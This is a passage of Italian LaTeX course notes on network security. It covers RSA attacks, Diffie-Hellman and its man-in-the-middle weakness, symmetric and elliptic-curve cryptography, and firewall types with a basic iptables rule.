Vediamo adesso i possibili attacchi all'RSA. La sicurezza di RSA si basa sull'impossibilità di derivare $\phi(x)$ o $d$ a partire da $e, n$. Entrambi questi problemi hanno complessità equivalente a quella di \textit{fattorizzare} $n$ nei suoi fattori primi. Tra il 1991 ed il 2003 sono stati fattorizzati numeri da 332 a 663 bit utilizzando algoritmi di fattorizzazione diversi in decine di macchine in cluster a lavoro per mesi. Ad oggi si ritiene che utilizzare chiavi di dimensione superiore a 1024 bit sia sufficiente. È molto importante notare che la sicurezza di una chiave dipende dalla lunghezza e dal migliore algoritmo noto di fattorizzazione allo stato dell'arte. Tra il 1994 ed il 1996 è stato introdotto un nuovo algoritmo che ha potuto fattorizzare un numero di 341 bit con il 20\% delle risorse impiegate nell'algoritmo noto in precedenza; non è detto che la cosa non si ripeta in futuro, magari con risultati più notevoli. La sicurezza di RSA dipende quindi tutta dallo stato dell'arte in questo campo ed in quello della potenza computazionale.

È stato dimostrato che un computer quantistico sarà in grado di fattorizzare e calcolare i logaritmi discreti in tempo polinomiale. Purtroppo la realizzazione di un computer quantistico sembra ancora molto lontana a causa di un fenomeno chiamato \textit{decoerenza quantistica} dovuto all'influenza dell'ambiente esterno sul computer quantistico. Bisogna comunque tenere presente che tutto ciò che riteniamo intrattabile oggi potrebbe non esserlo domani.

Un altro tipo di attacco all'RSA è il \textit{timing attack}. Nel processo di decodifica è necessario produrre una esponenziazione con la chiave privata. Le operazioni in hardware hanno un costo computazionale diverso se il bit usato per l'esponenziazione è 0 o 1. L'idea è che osservando i tempi di esecuzione della CPU si può risalire alla chiave privata solo osservando operazioni di decodifica; è un attacco laborioso ma che arriva da una direzione inattesa. Le implementazioni di RSA introducono dei ritardi casuali nell'esponenziazione per rendere impredicibile i tempi di esecuzione.

Gli stessi problemi computazionalmente intrattabili utilizzati in RSA (fattorizzazione di numeri primi, logaritmo di numeri interi) sono alla base di altri algoritmi frequentemente utilizzati:
\begin{itemize}
	\item Diffie-Hellman: genera una chiave segreta condivisa a partire da due chiavi pubbliche note senza bisogno di scambiare esplicitamente alcun segreto.
	\item ElGamal: schema a chiave pubblica basato su logaritmi discreti.
	\item DSA: schema di firma digitale basato su logaritmi discreti.
\end{itemize}

\subsection{Scambio di chiavi Diffie-Hellman}
Lo scambio di chiavi Diffie-Hellman (Diffie-Hellman key exchange) è un protocollo crittografico a chiave pubblica che consente a due entità di stabilire una chiave condivisa e segreta utilizzando un canale di comunicazione insicuro (pubblico) senza la necessità che le due parti si siano scambiate informazioni o si siano incontrate in precedenza. La chiave ottenuta mediante questo protocollo può essere successivamente impiegata per cifrare le comunicazioni successive tramite uno schema di crittografia simmetrica. Sebbene l'algoritmo in sé sia anonimo (cioè non autenticato) è alla base di numerosi protocolli autenticati. L'idea di base è \textit{l'intrattabilità del logaritmo discreto}.\\
Dato un numero primo $p$ si definisce \textit{radice primitiva di} $p$ un numero $\alpha$ per cui vale che
\begin{align*}
\alpha\bmod p \neq \alpha^2\bmod p \neq \alpha^3\bmod p \neq \dots \neq \alpha^i\bmod p && \text{con } i < p.
\end{align*}
Nello scambio di chiavi Diffie-Hellman entrambi gli utenti $A$ e $B$ possiedono due parametri noti $p, \alpha$ (con $p$ primo e $\alpha$ radice primitiva di $p$) e ciascuno di loro genera un numero casuale $X_a$ e $X_b$, dopo di che:
\begin{enumerate}
	\item $A$ invia a $B$ $Y_a=\alpha^{X_a}\bmod p$,
	\item $B$ riceve $Y_a$ ed invia ad $A$ $Y_b=\alpha^{X_b}\bmod p$,
	\item $A$ calcola $K_a=Y_b^{X_a}\bmod p = (\alpha^{X_b})^{X_a}\bmod p = \alpha^{X_b X_a}\bmod p$,
	\item $B$ calcola $K_b=Y_a^{X_b}\bmod p = (\alpha^{X_a})^{X_b}\bmod p = \alpha^{X_a X_b}\bmod p$.
\end{enumerate}
Ma $K_a = K_b$, quindi $A$ e $B$ si sono scambiati una chiave segreta \textit{senza avere nessuna credenziale comune}. Dunque, un attaccante che intercetta solo $Y_a$ e $Y_b$ non è in grado di calcolare il logaritmo discreto e quindi non può ricavare la chiave.

Si dimostra abbastanza facilmente che lo scambio di chiavi Diffie-Hellman non è sicuro contro gli attacchi man-in-the-middle poiché un attaccante $D$ è in grado di modificare il traffico tra $A$ e $B$:
\begin{itemize}
	\item $D$ genera $X_{d_1}$ e $X_{d_2}$ e le chiavi pubbliche corrispondenti $Y_{d_1}$ e $Y_{d_2}$.
	\item $A$ invia $Y_a$ a $B$.
	\item $D$ intercetta il messaggio e trasmette $Y_{d_1}$ a $B$.
	\item $B$ riceve $Y_{d_1}$ e calcola $K_b = Y_{d_1}^{X_b} \bmod p$.
	\item $B$ invia $Y_b$ ad $A$.
	\item $D$ intercetta $Y_b$ e invia $Y_{d_2}$ ad $A$.
	\item $A$ calcola $K_a = Y_{d_2}^{X_a} \bmod p$.
\end{itemize}
Alla fine dello scambio quindi $A$ e $B$ non condividono nessuna chiave: entrambi condividono una chiave con $D$. A questo punto $D$ può intercettare il traffico, decifrarlo e cifrarlo. Questo problema di autenticazione viene risolto comunemente attraverso l'utilizzo di certificati.

\subsection{Algoritmi a chiave simmetrica}
In questa sezione vedremo brevemente due algoritmi di cifratura a chiave simmetrica: One-Time Pad (OTP) e la cifratura di Feistel.

L'algoritmo One-Time Pad (OTP) è una tecnica che in linea teorica produce la sicurezza più elevata, ma nella pratica non è facilmente utilizzabile. Dato un testo in chiaro $m$ di $n$ bit si sceglie una chiave $k$ di $n$ bit generata con un generatore perfetto di numeri casuali. La cifratura $c$ avviene semplicemente calcolando lo XOR tra $m$ e $k$, $c=m\oplus k$, ed ad ogni trasmissione si deve cambiare $k$ (altrimenti la decodifica è molto semplice).\\
Con questo algoritmo si scorrela completamente $c$ da $m$ e non può essere effettuata crittoanalisi. Il problema ovviamente risiede nel fatto che si deve trasportare con un canale sicuro una chiave lunga quanto il testo da spostare.

La cifratura di Feistel è un algoritmo di cifratura a blocchi basata su un algoritmo di sostituzione. Un algoritmo di sostituzione ideale che mappa un messaggio in chiaro di $n$ bit in un messaggio cifrato di $n$ bit funziona utilizzando una mappa statica; nel caso $n=2$ potrebbe essere:
\begin{table*}[h]
	\centering
	\begin{tabular}{c|c}
		\toprule[0.5ex]
		Messaggio in chiaro & Messaggio cifrato \\
		\midrule
		00 & 01 \\
		01 & 11 \\
		10 & 00 \\
		11 & 10 \\
		\bottomrule[0.5ex]
	\end{tabular}
\end{table*}\\
In generale se il messaggio è lungo $n$ bit la mappa avrà $2^n$ righe e l'attaccante potrà solo provare attacchi a forza bruta, in quanto non esiste correlazione statistica tra il testo in chiaro ed il testo cifrato. Se il messaggio ha lunghezza maggiore si possono cifrare blocchi di due bit per volta.\\
Affinché questo algoritmo sia sicuro i blocchi devono essere di grandi dimensioni, in tal caso la chiave (la mappa) diventa molto grande. Ad esempio, per $n=64 \to 64 \times 2^{64} = 2^{70}$ bit.\\
Un possibile attacco a questo algoritmo potrebbe essere realizzabile mediante una \textit{analisi della frequenza}: si effettua una crittoanalisi sulla frequenza dei simboli per cercare di risalire alla mappa. Per evitare di incorrere in un tale problema si \textquotedblleft crea confusione" tra i simboli trasmetti attraverso uno XOR. Questo procedimento di \textit{confondere} e \textit{diffondere} (rumore bianco) i dati è uno dei principi fondamentali della crittografia: sono due proprietà che un algoritmo di cifratura sicuro deve possedere per essere considerato più o meno robusto ovvero scarsamente attaccabile da un attacco di tipo crittoanalitico.
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.6]{images/Feistel}
	\caption{Cifratura di Feistel.}
	\label{img:Feistel}
\end{figure}\\
In Figura \ref{img:Feistel} è riportato il processo di cifratura di Feistel. La struttura inventata da Feistel ha un vantaggio: cifratura e decifratura sono operazioni molto simili, spesso identiche, e basta invertire il funzionamento del gestore della chiave per ottenere l'operazione inversa; i circuiti di cifratura e decifratura, dunque, spesso sono gli stessi. Dalla chiave $K$ si generano una serie di sottochiavi $K_i$, $i=0,\dots,n$, attraverso una funzione generatrice. Si eseguono quindi una serie di fasi di cifratura che hanno come parametro $K_i$ ed il risultato della fase precedente. Vediamo brevemente nel dettaglio i passi di cifratura e decifratura.\\
Sia $F$ la funzione dei passaggi e siano $K_0, K_1, \dots, K_n$ le sottochiavi rispettivamente dei passaggi $0,\dots,n$. Le operazioni basilari sono le seguenti:
\begin{enumerate}
	\item Dividere i dati in ingresso in due parti uguali $(L_0, R_0)$.
	\item Per ogni round $i=1,2,\dots,n$, calcola
	\begin{align*}
		L_i &= R_{i-1} \\
		R_i &= L_{i-1} \oplus f(R_{i-1}, K_{i-1})
	\end{align*}
	dove $f$ è la funzione del round e $K_i$ è la chiave corrente. Si ottiene il testo cifrato $(L_{n+1}, R_{n+1})$.
\end{enumerate}
La decifratura si ottiene con:
\begin{align*}
	R_{i-1} &= L_i \\
	L_{i-1} &= R_i \oplus f(L_i, K_i)
\end{align*}
Un vantaggio di questo modello è che le funzioni $f$ usate sono \textit{non invertibili} e possono essere molto complesse. Il diagramma in Figura \ref{img:Feistel} mostra la cifratura e la decifratura del messaggio. Si noti l'inversione della chiave di sessione per la decifratura: è l'unica differenza rispetto alla cifratura del messaggio. Tutti gli algoritmi a blocchi moderni come AES e DES usano questo schema di cifratura.

\section{Altri algoritmi}

\subsection{ID-based cryptography}
La crittografia basata sull'identità (IBC) è un tipo di crittografia a chiave pubblica in cui una stringa nota pubblicamente che rappresenta un individuo od un'organizzazione viene utilizzata come chiave pubblica. Tale stringa potrebbe includere un indirizzo e-mail, un nome di dominio od un indirizzo IP fisico.

Il problema di distribuire i certificati è un limite significativo della cifratura a chiave pubblica; impone un'infrastruttura e introduce costi di set-up di una sessione. La ID-based cryptography nasce per eliminare questo limite. Con IBC la chiave pubblica di un utente è derivata direttamente da un identificativo dell'utente, ad esempio $e=\text{hash}(\textsf{leonardo.maccari@unifi.it})$. Non vi è necessità di scambiarsi i certificati: il canale di trasmissione (e-mail, IP, etc.) definisce esso stesso l'associazione chiave-utente.\\
Tecnicamente esistono ancora molti limiti perché IBC prenda piede. Uno su tutti è che affinché il sistema funzioni è necessario che le chiavi vengano generate tutte da un ente fidato, al contrario di RSA in cui la chiave privata può non essere mai rivelata a nessuno se non al proprietario. Esistono comunque aziende che vendono soluzioni basate su IBC (e.g. Trend Micro).

\subsection{Quantum cryptography}
È una tecnica molto nuova, ma allo stato attuale non è molto utilizzata. Sostanzialmente si basa sull'utilizzo di informazioni modificabili associate ad una trasmissione di dati. Ad esempio, in una fibra ottica, l'arrivo di un fotone implica la ricezione di un'informazione. Ogni fotone possiede uno stato di polarizzazione che secondo il principio di indeterminazione di Heisenberg non può essere misurato senza interferirci. Negli stati dei fotoni viene codificata una chiave simmetrica che verrà utilizzata per cifrare il resto della comunicazione. Ad oggi si applica solo a comunicazioni su fibra.\\
Si noti infine che su fibra ottica non è possibile un man-in-the-middle: l'attaccante dovrebbe rompere fisicamente la fibra per farlo.

\subsection{Crittografia a chiave ellittica}
Dopo l'introduzione di RSA e Diffie-Hellman, sono state prese in considerazioni altre soluzioni matematiche per creare algoritmi che si servono di funzioni \textquotedblleft furbe". Nel 1985, gli algoritmi crittografici proposti si basavano su una branchia della matematica che studiava le \textit{curve ellittiche}. Sotto alcune condizioni particolari, un gruppo può essere definito da una curva ellittica, una curva piana definita da un'equazione del tipo $y^2 = x^3 + ax + b$. La \textit{crittografia ellittica} è una tipologia di crittografia a chiave pubblica basata sulle curve ellittiche definite su campi finiti. Ragionamenti analoghi a quelli fatti per RSA possono essere riportati al contesto delle curve ellittiche. Il problema del logaritmo discreto utilizzato nella crittografia (i.e. la funzione trappola, in questo caso la curva ellittica) a curva ellittica è molto più difficile del problema della fattorizzazione di numeri primi, a parità di dimensione del campo, e quindi a parità di sicurezza questa crittografia richiede chiavi pubbliche di dimensione inferiore, dunque più facilmente utilizzabili (operazioni di codifica e decodifica più semplici) rispetto a quelle utilizzate dal metodo RSA. La National Security Agency (NSA) americana ha inserito alcuni algoritmi a curve ellittiche nel \textit{suite} $B$, un insieme di algoritmi ufficialmente supportati. Vediamo più nel dettaglio come funziona la crittografia ellittica.
\begin{figure}[htbp]
	\centering
	\begin{tikzpicture}[domain=-1.769292354238631:2.5, samples at = {-1.32471795724475, -1.32, ..., 2.26}]
		\draw[->] (-2.2,0) -- (3.2,0) node[right] {$x$};
		\draw[->] (0,-2.2) -- (0,4.2) node[above] {$y$};
		\draw[-, color=blue] plot (\x,{sqrt(\x^3-\x+1)}) node[right] {$y^2=x^3-x+1$};
		\draw[-, color=blue] plot (\x,{-sqrt(\x^3-\x+1)}) node[right] {};
	\end{tikzpicture}
	\caption{Esempio di curva ellittica di equazione $y^2 = x^3 - x + 1$.}
	\label{img:elliptic_curve}
\end{figure}\\
Uno dei motivi fondamentali per cui le curve ellittiche hanno preso piede è che, rispetto alla fattorizzazione, la maggior parte delle persone (esperti compresi) non conosce molto bene la difficile matematica che sta dietro, ossia non è ben nota. Come già detto, una curva ellittica è l'insieme dei punti $(x, y) \in \mathbb{R}^2$ che soddisfano l'equazione $y^2 = x^3 + ax + b$; un esempio è riportato in Figura \ref{img:elliptic_curve}. Essa possiede alcune proprietà che la rendono una buona scelta nell'ambito della crittografia.\\
Una di queste è la simmetria orizzontale, ossia rispetto all'asse $x$. Qualunque punto sulla curva può essere riflesso attraverso l'asse $x$ ed il valore funzionale rimane invariato.\\
Una proprietà più interessante è che qualunque linea non verticale (eccetto alcuni casi particolari) interseca la curva in al più tre punti. Immaginiamo questa curva come un tavolo da biliardo. Prendiamo due punti qualsiasi sulla curva e tracciamo il segmento che li congiunge; la linea intersecherà la curva in più di un punto. Nel gioco del biliardo, invece, si prende una palla nel punto $A$ e si colpisce verso il punto $B$. Quando colpisce la curva, la palla rimbalza o verso l'alto (se è sotto l'asse $x$) o verso il basso (se è al di sopra dell'asse $x$) verso l'altro lato della curva. È abbastanza intuitivo capire che è molto difficile trovare il numero di volte in cui la palla rimbalza da un punto iniziale $A$ ad un punto finale $B$, conoscendo solo $A$ e $B$. In termini matematici e crittografici, si sta parlando quindi di una funzione interessante: è semplice da calcolare, ma è estremamente difficile tornare indietro.

In questo processo non abbiamo tenuto conto tuttavia di una cosa fondamentale: lavorando in un dominio discreto come quello di un calcolatore non è possibile rappresentare una funzione continua. A questo scopo vengono presi in considerazione solo valori interi in un intervallo fissato. Quando si calcola la formula per una curva ellittica si usa lo stesso trucco di \textquotedblleft ribaltare" i numeri quando raggiungiamo il massimo; se vincoliamo il massimo ad essere primo, la curva ellittica è chiamata \textquotedblleft curva prima" e possiede delle eccellenti proprietà crittografiche. Torniamo alla curva in Figura \ref{img:elliptic_curve}: essa è rappresentata per tutti i numeri reali.
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.5]{images/elliptic_curve_discrete}
	\caption{Esempio di discretizzazione della curva $y^2 = x^3 - x + 1$ con soli numeri interi rappresentati fino a 97.}
	\label{img:elliptic_curve_discrete}
\end{figure}\\
In Figura \ref{img:elliptic_curve_discrete} è rappresentata la stessa curva con i soli numeri interi rappresentati fino ad un massimo di 97. Anche se non sembrerebbe, essa rappresenta sempre una curva in senso tradizionale: è come se la curva originale fosse avvolta intorno ai bordi e solamente le parti della curva che \textquotedblleft colpiscono" i numeri a coordinate intere risultano colorate. È ancora possibile notare la simmetria orizzontale.

Con questa nuova rappresentazione della curva è possibile rappresentare i messaggi come punti su essa. Possiamo immaginare di prendere un messaggio ed assumerlo come coordinata $x$ per poi calcolare la $y$ ed ottenere un punto sulla curva; in realtà il processo è più complicato in pratica, ma l'idea di base è questa.

Ricapitolando, quindi, un sistema crittografico basato su curva ellittica può essere definito prendendo un numero primo come massimo, un'equazione di una curva ellittica ed un punto \textit{pubblico} sulla curva. Una \textit{chiave privata} è un numero $priv$ ed una chiave pubblica è ottenuta facendo \textquotedblleft rimbalzare" il punto pubblico su sé stesso $priv$ volte. Per il calcolo della chiave privata a partire dalla chiave pubblica in questo tipo di sistema crittografico deve essere utilizzata la funzione logaritmo discreto sulla curva ellittica: questa è la \textit{funzione trappola} che cercavamo. Tuttavia, proprio il fatto che la matematica che sta dietro a queste idee non è ben nota, si sospetta che la scelta \textquotedblleft errata" di alcuni parametri iniziali (ad esempio $a, b$ nell'equazione della curva) porti a dei risultati non molto robusti. Non è stato dimostrato, ma solo ipotizzato, che alcuni numeri portino a risultati veramente facili da decodificare.

La crittografia ellittica è estremamente facile da implementare ed attualmente è utilizzata in molti ambiti eccetto che per la codifica di dati sensibili, a causa proprio della mancanza di conoscenza della matematica alla base.
%!TEX root = ../Security&NetworkManagement.tex
\chapter{Firewall}
Un \textbf{firewall} è un apparato software o hardware configurato per ammettere, abbattere o veicolare (proxy firewall) connessioni tra due aree di rete con differente \textit{livello di fiducia}. Ad esempio, un firewall perimetrale viene normalmente posto su un gateway per separare la rete locale (alto livello di fiducia) da Internet (livello di fiducia minimo). Lo scopo finale del firewall è quindi quello di offrire un'interfaccia configurabile tra due segmenti di rete con diversi livelli di fiducia. L'interfaccia deve essere configurabile attraverso security policy basate su due principi: \textit{least privilege} (l'utente deve avere solo i privilegi essenziali al proprio lavoro) e \textit{separation of duties} (separazione delle funzioni tra utente e amministratore). Esistono due politiche di default sper l'applicazione delle regole:
\begin{enumerate}
	\item \textbf{Policy default-deny}. Viene permesso solo ciò che viene dichiarato esplicitamente, il resto viene vietato;
	\item \textbf{Policy default-allow}. Viene vietato solo ciò che viene dichiarato esplicitamente, il resto viene permesso.
\end{enumerate}
Tutti i firewall utilizzano la politica default-deny, poiché garantisce una maggiore sicurezza e una maggiore accuratezza nella definizione delle regole rispetto alla politica default-allow, anche se quest'ultima consente una configurazione più semplice. La configurazione di un firewall richiede profonda conoscenza dei protocolli di rete e di network security: un errore nella configurazione può rendere inutile il suo utilizzo.

L'analisi dei pacchetti che costituiscono il traffico, secondo i criteri di sicurezza formalizzati dalle regole, si traduce in una delle seguenti azioni:
\begin{itemize}
	\item \textbf{Allow}. Il firewall lascia passare il pacchetto;
	\item \textbf{Deny}. Il firewall blocca il pacchetto e lo rimanda al mittente;
	\item \textbf{Drop}. Il firewall blocca il pacchetto e lo scarta senza inviare alcuna segnalazione al mittente.
\end{itemize}
Solitamente i firewall non prevedono il blocco del pacchetto e il rinvio dello stesso al mittente per evitare uno spreco di banda. È del tutto sbagliato pensare che tutti gli attacchi provengano da Internet (o altra rete al di là del firewall): tanti attacchi possono benissimo provenire dalla rete LAN da proteggere; per questo motivo un firewall non deve solo controllare i pacchetti in entrata, ma anche quelli in uscita.

Nel corso degli anni i firewall si sono sviluppati, dando luogo a diverse tipologie:
\begin{itemize}
	\item \textbf{Packet filter}. Un packet filter firewall o \textit{stateless} firewall analizza ogni pacchetto che lo attraversa singolarmente, senza tenere conto dei pacchetti che lo hanno preceduto. In altre parole, la decisione presa all'istante $t$ non è condizionata dalle scelte fatte per i pacchetti precedenti. In tale analisi vengono considerate solo alcune informazioni contenute nell'header del pacchetto: indirizzo IP della sorgente, indirizzo IP della destinazione, porta della sorgente, porta della destinazione e il protocollo di trasporto. Su questi parametri vengono costruite le regole che formalizzano la policy del firewall e che stabiliscono quali pacchetti lasciar passare e quali bloccare. Questo tipo di filtraggio è semplice e leggero (è il più efficiente visto che guarda solo l'header) ma non garantisce un'elevata sicurezza: a causa della mancanza di stato, il firewall lascia passare anche i pacchetti il cui indirizzo IP sorgente originale, non consentito dalla policy del firewall, viene volutamente modificato con un indirizzo consentito. Un esempio di operazione non concessa con un firewall stateless è il FTP. Questo perchè per design il protocollo apre una porta casuale per il traferimento. In questo modo il firewall vieta la connessione senza neanche guardare il pacchetto. Questo problema viene risolto in maniera semplice da un firewall stateful.
	\item \textbf{Stateful firewall}. In questo tipo di firewall vengono implementate delle macchine a stati per prendere decisioni più complesse; svolge dunque lo stesso tipo di filtraggio dei packet filter firewall ma tenendo traccia delle connessioni e del loro stato. Questa funzionalità, detta \textit{stateful inspection}, viene implementata utilizzando una tabella dello stato interna al firewall nella quale ogni connessione TCP e UDP viene rappresentata da due coppie formate da indirizzo IP e porta, una per ciascun endpoint della comunicazione. Per tenere traccia dello stato di una connessione TCP vengono memorizzati il sequence number, l'acknowledgement number e i flag che ne indicano l'inizio (SYN), la parte centrale (ACK) e la fine (FIN).  Uno stateful firewall dunque bloccherà tutti i pacchetti che non appartengono ad una connessione attiva, a meno che non ne creino una nuova, o che non rispettino l'ordine normale dei flag nella comunicazione. Ad esempio, quindi, non viene accettato un pacchetto di ACK se non è stato prima ricevuto un pacchetto di SYN. \\
	La policy del firewall non è dunque definita solo dall'amministratore ma anche dallo stato della connessione e dai pacchetti precedentemente analizzati. Gli stateful firewall non rilevano gli attacchi nei livelli OSI superiori al quarto (come quelli stateless) e sono sensibili agli attacchi DoS che saturano la tabella dello stato. In generale, rispetto ai packet filter firewall, offrono una maggiore sicurezza e un controllo migliore sui protocolli applicativi che scelgono casualmente la porta di comunicazione (come FTP), ma sono più onerosi dal punto di vista computazionale.
	\item \textbf{Application layer firewall}. Questo tipo di firewall opera fino al livello 7 del modello OSI filtrando tutto il traffico di una singola applicazione sulla base della conoscenza del suo protocollo. L'application layer firewall analizza i pacchetti nella sua interezza considerando anche il loro contenuto (payload) ed è quindi in grado di capire queale protocollo è stato usato (come stateful) ma anche di distinguere il traffico di un'applicazione indipendentemente dalla porta di comunicazione che questa utilizza. Per esempio, riesce a capire la differenza tra traffico HTTP per accedere a una pagine web e traffico HTTP usato per il file sharing. Un'altra caratteristica che lo distingue da un packet filter firewall e da uno stateful firewall è la capacità di spezzare la connessione tra un host della rete che protegge e un host della rete esterna. Infatti nelle comunicazioni svolge il ruolo di intermediario (infatti di solito sono implementati come proxy) ed è quindi l'unico punto della rete che comunica con l'esterno, nascondendo così gli altri host che vi appartengono. Sebbene aumenti il livello della sicurezza, un application firewall è specifico per ogni applicazione e costituisce un collo di bottiglia per le performance della rete. Inoltre, dal momento che ha una complessità maggiore, richiede maggiori risorse computazionali. Un altro limite risiede nel fatto che, se ad esempio variamo la versione del protocollo, il firewall non funziona più; è quindi un tipo di firewall che funziona bene solo se vi è una collaborazione diretta con gli utenti, cioè se il protocollo di comunicazione è noto in qualsiasi momento.
\end{itemize}
Il firewall viene quindi utilizzato per separare aree distinte della rete. Una configurazione tipica è quella in cui il firewall separa due segmenti di rete formati da una rete interna (corporate), in cui risiedono le postazioni degli utenti, i server di dati e i database (quindi il segmento che contiene le informazioni più importanti per l'attività e che deve essere più protetto), ed una rete accessibile dall'esterno, sulla quale risiedono i server web, di posta e DNS, che sono a diretto contatto con Internet quindi a maggiore rischio. Questa zona, detta \textbf{DeMilitarized Zone (DMZ)}, contiene dati accessibili dall'esterno che sono, in linea di principio, di minore valore e con minori restrizioni per l'accesso (nell'ottica di chi vede la rete da fuori).\newpage
\begin{figure}[htbp]
	\centering
	
\includegraphics[scale = 0.5]{images/double-firewall}
	\caption{Configurazione a doppio firewall.}
	\label{img:double-firewall}
\end{figure}
In un'altra configurazione (Figura \ref{img:double-firewall}) possiamo immaginare di aggiungere un ulteriore firewall in modo da avere due elementi di difesa prima di arrivare alla rete corporate. Questa configurazione è più robusta, perché:
\begin{enumerate}
	\item Un attaccante dovrebbe bucare i due firewall prima di arrivare alla rete corporate (i firewall utilizzeranno software o hardware diversi, offrendo ridondanza);
	\item La DMZ è separata anche dall'interno verso l’esterno, con lo stesso principio.
	\item È più facile separare il traffico ed altri tipi di connessione verso l'esterno che possono essere considerate meno sicure si possono inserire nella DMZ.
	\item Vi è una distribuzione del carico di lavoro.
\end{enumerate}
In questo modo il firewall a cui è connessa la rete interna può controllare anche eventuali attacchi che circolano entro la rete stessa o diretti verso l'esterno. Gli svantaggi di questa tecnica sono legati in primis ai costi, ma anche alla difficile installazione e configurazione dei due firewall.

Riassumendo, possiamo dire che oggi i firewall servono poco perché gli attacchi vengono fatti direttamente sugli host terminali, dove è possibile \textquotedblleft attaccare anche senza attaccare" (i.e. buttare giù) un firewall.

\section{Netfilter/Iptables}
\textbf{Netfilter} è un framework inserito nel kernel di GNU/Linux che permette di effettuare filtraggio dei pacchetti su un firewall software. Netfilter lavora nel \textit{kernel space}, ovvero nel nucleo del sistema operativo e mette a disposizione degli \textit{hook}, ovvero dei punti di aggancio in cui i pacchetti possono essere filtrati durante il percorso all'interno del firewall. Per configurare netfilter si usa il programma \textbf{iptables}, uno strumento che permette di inserire, cancellare ed organizzare le regole di scarto, ovvero le regole secondo cui i pacchetti vengono filtrati nel kernel. Questo esempio di regola
%\shellcmd{iptables -t filter -D INPUT --dport 80 -j ACCEPT}
\shellcmd{iptables -A INPUT -p tcp -m tcp --dport 80 -j ACCEPT}
accetta i pacchetti in arrivo sulla porta 80 (protocollo TCP); \texttt{-t filter} consente di specificare la tabella da considerare (se omesso, di default viene considerata la tabella \texttt{filter}), \texttt{-A INPUT} aggiunge una regola sul traffico in ricezione (catena), \texttt{--dport 80} criterio di match della regola, \texttt{-j ACCEPT} accetta.

Le regole sono organizzate in catene e tabelle: una catena identifica il punto all'interno del percorso nel kernel in cui avviene il filtraggio, mentre una tabella associa gruppi di regole simili. Un firewall è un host a tutti gli effetti, con almeno due schede di rete, ognuna delle quali possiede un indirizzo IP. I pacchetti possono arrivare su una delle schede, essere filtrati ed essere inoltrati sull'altra (forwarding); se un pacchetto ricevuto dalla prima scheda è diretto all'IP di quella scheda, il pacchetto verrà elaborato in locale, dunque non vi è forwarding. Il firewall può inoltre generare dei pacchetti, che vengono inviati all'esterno verso altri IP su una delle due schede.
\begin{figure}[htbp]
	\centering
%	\begin{tikzpicture}[node distance=2cm]
%		\node (reteA) [rect] {Rete A};
%		\node (routing) [draw, diamond, aspect=2, below of=reteA] {Routing};
%		\node (localhost1) [rect,right of=reteA, xshift=3cm] {Localhost};
%		\node (localhost2) [rect,below of=routing, xshift=-2cm] {Localhost};
%		\node (reteB) [rect,below of=routing, xshift=2cm] {Rete B};	
%		
%		\draw [arrow] (reteA) -- (routing);
%		\draw [arrow] ($(routing.south west)$) -- (localhost2);
%		\draw [arrow] ($(routing.south east)$) -- (reteB);
%		\draw [arrow] (localhost1) -- ($(routing.south east)!0.5!(reteB.north)$); 
%	\end{tikzpicture}
	
\includegraphics[scale = 0.4]{images/firewall-logic-scheme}
	\caption{Schema logico del firewall.}
